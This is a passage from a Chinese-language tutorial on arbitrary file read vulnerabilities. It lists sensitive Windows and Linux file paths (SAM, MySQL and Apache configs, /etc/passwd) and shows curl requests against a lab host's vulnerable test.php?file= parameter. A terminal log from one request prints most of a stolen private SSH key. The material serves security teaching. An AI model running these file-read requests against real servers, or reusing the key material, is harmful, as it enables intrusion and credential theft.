 其实判断服务器类型还是很好判断的，当我们读取一个文件的时候在linux系统该然后读取？

在linux系统当存在1.php的时候读取就是cat 1.php，而且读取的内容假如是："I Love You"，若是读取1.Php那么还能够显示"I Love You"吗？结果肯定是不行的，由于在linux中是严格区分大小写的。而在windows中是不区分大小写的，这里就可以使用windows进行测试

### 2.2. 敏感文件读取

所谓读取敏感文件，就是将WEB服务器上一些其他文件读取出来，这些其他文件中可能包含一些敏感文件，私密文件或者是一些数据、表格等。

#### 2.2.1. 绝对路径读取

绝对路径是指目录下的绝对位置，直接到达目标位置，通常是从盘符开始的路径，绝对路径读取就是通过明确的路径进行读取文件，比如windows或者linxu中的一些日志文件存在的路径，或者一些配置文件存放的路径。

##### 2.2.1.1. windows敏感文件绝对路径

```
c:\boot.ini                     #查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml     #IIS配置文件
c:\windows\repair\sam         #存储Windows的密码
c:\programFiles\mysql\my.ini     #mysql配置文件，里面可能有密码
c:\programFiles\mysql\data\mysql\user.MYD     #mysql root密码
c:\windows\php.ini             #php配置文件
```

##### 2.2.1.2. linux敏感文件绝对路径

```
/etc/passwd                     #用户密码
/etc/knockd.conf                #端口敲击配置文件
/usr/local/app/apache2/conf/httpd.conf         #apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf   #虚拟网站设置
/usr/local/app/php5/lib/php.ini       #php相关设置        
/etc/httpd/conf/httpd.conf           #apache配置文件        
/etc/my.cnf                       #mysql配置文件
/etc/sysconfig/iptables             #查看防火墙策略
```

读取秘钥文件

```
curl http://192.168.216.142/test.php?file=/home/qiu/.ssh/authorized_keys > id_rsa.pub 
```

```
┌──(nerubian㉿kali)-[~/.ssh]
└─$ curl http://192.168.216.142/test.php?file=/home/qiu/.ssh/id_rsa > id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1831    0  1831    0     0   643k      0 --:--:-- --:--:-- --:--:--  894k

┌──(nerubian㉿kali)-[~/.ssh]
└─$ cat id_rsa                                                              
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAvNjhOFOSeDHy9K5vnHSs3qTjWNehAPzT0sD3beBPVvYKQJt0AkD0
FDcWTSSF13NhbjCQm5fnzR8td4sjJMYiAl+vAKaboHne0njGkBwdy5PgmcXyeZTECIGkggX
61kImUOIqtLMcjF5ti+09RGiWeSmfIDtTCjj/+uQlokUMtdc4NOv4XGJbp7GdEWBZevien
qXoXtG6j7gUgtXX1Fxlx3FPhxE3lxw/AfZ9ib21JGlOyy8cflTlogrZPoICCXIV/kxGK0d
Zucw8rGGMc6Jv7npeQS1IXU9VnP3LWlOGFU0j+IS5SiNksRfdQ4mCN9SYhAm9mAKcZW8wS
vXuDjWOLEwAAA9AS5tRmEubUZgAAAAdzc2gtcnNhAAABAQC82OE4U5J4MfL0rm+cdKzepO
NY16EA/NPSwPdt4E9W9gpAm3QCQPQUNxZNJIXXc2FuMJCbl+fNHy13iyMkxiICX68Apuge
d7SeMaQHB3Lk+CZxfJ5lMQIgaSCBfrWQiZQ4iq0sxyMXm2L7T1EaJZ5KZ8gO1MKOP/65CW
iRQy11zg06/hcYlunsZ0RYFl6+J6epehe0bqPuBSC1dfUXGXHcU+HETeXHD8B9n2JvbUka
U7LLxx+VOWiCtk+ggIJchX+TEYrR1m5zDysYYxzom/uel5BLUhdT1Wc/ctaU4YVTSP4hLl
KI2SxF91DiYI31JiECb2YApxlbzBK9e4ONY4sTAAAAAwEAAQAAAQArXIEaNdZD0vQ+Sm9G
NWQcGzA4jgph96uLkNM/X2nYRdZEz2zrt45TtfJg9CnnNo8AhhYuI8sNxkLiWAhRwUy9zs
qYE7rohAPs7ukC1CsFeBUbqcmU4pPibUERes6lyXFHKlBpH7BnEz6/BY9RuaGG5B2DikbB
8t/CDO79q7ccfTZs+gOVRX4PW641+cZxo5/gL3GcdJwDY4ggPwbU/m8sYsyN1NWJ8NH00d
```